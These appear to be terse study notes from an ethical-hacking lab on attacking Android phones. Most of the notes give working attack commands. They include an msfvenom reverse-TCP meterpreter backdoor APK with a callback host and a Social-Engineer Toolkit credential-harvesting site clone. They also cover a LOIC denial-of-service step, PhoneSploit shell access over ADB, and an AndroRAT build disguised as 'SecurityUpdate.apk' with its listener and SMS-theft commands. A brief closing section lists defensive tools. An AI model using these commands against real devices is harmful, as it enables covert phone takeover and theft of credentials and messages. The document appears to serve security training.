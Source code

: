 # Hacking Mobile Platform

## Hack android devices

- Hack an Android device by creating binary payloads using Parrot Security  
`msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 R >Desktop/Backdoor.apk`

- Harvest users’ credentials using the Social-Engineer Toolkit  
setoolkit  
1 - Social-Engineering Attacks  
2 - Website Attack Vectors  
3 - Credential Harvester Attack Method  
2 - Site cloner  

- Launch a DoS attack on a target machine using Low Orbit Ion Cannon (LOIC) on the Android mobile platform  
    android app

- Exploit the Android platform through ADB using PhoneSploit  
`python3 phonesploit.py`  
3 - connect a new phone  
4 - access shell on a phone  
7 - screen shot a picture on a phone  

- Hack an Android device by creating APK file using AndroRAT  
`python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk`  
`python3 androRAT.py --shell -i 0.0.0.0 -p 4444`  

help
getSMS  
getMACAddress  

## Secure Android Devices using Various Android Security Tools

- Analyze a malicious app using online Android analyzers  
<https://www.sisik.eu/apk-tool>

- Secure Android devices from malicious apps using Malwarebytes Security  
andorid app
